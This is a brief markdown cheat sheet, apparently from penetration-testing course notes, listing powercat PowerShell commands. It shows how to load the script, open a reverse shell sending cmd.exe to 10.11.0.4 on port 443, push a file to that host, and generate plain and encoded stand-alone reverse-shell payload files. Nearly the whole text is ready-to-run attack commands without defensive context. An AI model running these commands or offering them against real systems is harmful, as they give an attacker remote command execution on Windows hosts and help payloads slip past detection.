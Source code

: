 ### Load Powercat

```powershell
. .\powercat.ps1
```

### Powercat Reverse Shells

```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

### Powercat File Transfers

```powershell
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

### Powercat Stand-Alone Payloads

#### Plain text payload :  
```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
```
#### Encoded payload
```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell
```

